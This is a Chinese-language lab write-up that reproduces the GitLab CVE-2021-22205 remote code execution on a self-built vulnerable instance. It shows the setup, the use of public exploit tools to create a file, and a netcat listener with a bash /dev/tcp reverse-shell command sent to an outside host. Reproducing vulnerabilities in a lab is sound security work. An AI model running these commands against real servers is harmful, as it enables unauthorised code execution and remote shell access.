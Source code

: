 # 0x01 环境搭建
使用环境：CentOS7.6.1810_x64_en-us  
下载rpm安装包：https://packages.gitlab.com/gitlab/gitlab-ce/packages/ol/7/gitlab-ce-13.10.1-ce.0.el7.x86_64.rpm  
安装：sudo rpm -i ./gitlab-ce-13.10.1-ce.0.el7.x86_64.rpm  
修改第1处配置：sudo vim /etc/gitlab/gitlab.rb
```
external_url 'http://192.168.202.133:1028'
nginx['listen_addresses'] = ['*', '[::]']
nginx['listen_port'] = 1028
nginx['listen_https'] = false
```
修改第2处配置：sudo vim /opt/gitlab/embedded/conf/nginx.conf
```
server {
        listen       *:1028;
        server_name  192.168.202.133;
        if ($http_host = "") {
            set $http_host_with_default "ip:1028";
        }
```
临时关闭防火墙
```
sudo systemctl stop firewalld
systemctl status firewalld
```
重新加载配置文件
```
gitlab-ctl reconfigure
```
重启gitlab
```
gitlab-ctl restart
```
成功配置后，访问目标地址如下图  
![image](./pic/1.png)  
首次访问需要更改密码，此处更改密码对应的是管理员用户：admin@example.com  
通过登录界面的注册功能，注册一个新用户，并登录管理员用户通过注册申请，最终登录普通用户如下图  
![image](./pic/2.png)  
# 0x02 漏洞复现1（需要验证）
影响版本  
Gitlab CE/EE < 13.10.3  
Gitlab CE/EE < 13.9.6  
Gitlab CE/EE < 13.8.8  

直接使用工具[https://github.com/mr-r3bot/Gitlab-CVE-2021-22205](https://github.com/mr-r3bot/Gitlab-CVE-2021-22205)复现漏洞会有2个小问题  
1、当验证用户使用管理员时，程序会报错，如下图  
![image](./pic/a.png)  
根据漏洞的基本原理及报错提示，大概猜测报错原因是管理员页面的html内容和普通用户页面的html内容不一致  
2、当验证用户使用普通用户时，提示RCE成功触发，但是没有回显，如下图  
![image](./pic/3.png)  
将漏洞利用的方式改为创建文件，命令如下
```
python3 ./exploit.py -u ybdtd -p nihaomadadada -t http://192.168.202.133:1028 -c "touch ybdtybdt.txt"
```
提示RCE成功触发，到服务器端查看，发现成功创建此文件，用户权限是git，如下图  
![image](./pic/4.png)  
# 0x03 漏洞复现2（不需要验证）
借助工具：https://github.com/Al1ex/CVE-2021-22205  
vps上开启监听
```
nc -lnvvvp 1024
```
执行如下命令反弹shell
```
python3 ./CVE-2021-22205.py -a true -t http://192.168.202.133:1028 -c "bash -i >& /dev/tcp/xx.xx.xx.xx/1024 0>&1"
```
成功接收到反弹shell，如下图  
![image](./pic/5.png)  
# 0x04 参考链接
https://mp.weixin.qq.com/s/cy8OOzHD28Of3zC32S_4ow  
https://github.com/mr-r3bot/Gitlab-CVE-2021-22205  
https://blog.csdn.net/yzd524850313/article/details/113118193  
https://www.jianshu.com/p/56541f6c01a5  
https://www.cnblogs.com/ybit/p/14918949.html  
https://blog.csdn.net/smellycat000/article/details/121005824  

